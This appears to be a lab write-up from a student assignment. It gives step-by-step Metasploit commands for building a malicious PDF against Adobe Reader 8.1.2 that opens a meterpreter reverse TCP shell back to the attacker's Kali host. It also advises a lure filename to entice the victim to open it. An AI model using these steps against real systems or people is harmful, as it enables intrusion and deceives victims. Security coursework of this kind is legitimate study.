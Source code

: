 - **Attacker Machine**: Kali Linux version 2021.1  
- **Target OS**: Windows 10 (x86) or Windows 7 (x86) 
- **Target Software**: Adobe Reader 8.1.2 

## Detailed Steps
First, we launch the MSFconsole which provides command line interface for us to access the Metasploit framework.  
```
msfconsole
```

Then, search for exploit that matches our target Windows platform and Adobe PDF Reader, where it will display a whole list of exploits that can used to hijack into the victim’s Windows machine and exploits the Adobe PDF Reader vulnerabilities. 
```
search type:exploit platform:windows adobe pdf
```

In this exploitation, we select and use the module "adobe_pdf_embedded_exe" by using the command below to achieve the target of hijacking the victim. 
```
use exploit/windows/fileformat/adobe_pdf_embedded_exe
```

We can also check the information of the exploit by using the “info” command as shown below:
```
info
```

Then, we set the payload to use reverse TCP connection. We also use the Meterpreter that provides an interactive shell which ease us to use all kinds of functions by insert and execute the code to explore the victim’s machine. 
```
set payload windows/meterpreter/reverse_tcp
```

Then, we will set for the listening host and port. For LHOST, we need to put in the attacker machine’s IP address, which in this case is our Kali machine’s IP address(10.0.2.4)*. 
- **`*p.s.`** 
  - *You have to use your own Kali machine's IP* 
  - *You can use a different port number*

Meanwhile for LPORT, it is up to us to set a port number which is not commonly used. 
```
# to check Kali machine’s IP address
ifconfig

set LHOST *10.0.2.4*
set LPORT 5665
```

Then, we will set the input file for the base of the PDF with INFILENAME* flag. Next, we will set the filename to something that will attract victim’s interest to open the malicious PDF file. 
- **`*p.s.`** 
  - *You have to make sure your PDF file path*
  - *You can use a different filename*  
```
set INFILENAME '/home/kali/Documents/WIC3004Assignment.pdf'
set FILENAME 'Bawang_Ranger_WIC3004Report.pdf'
```
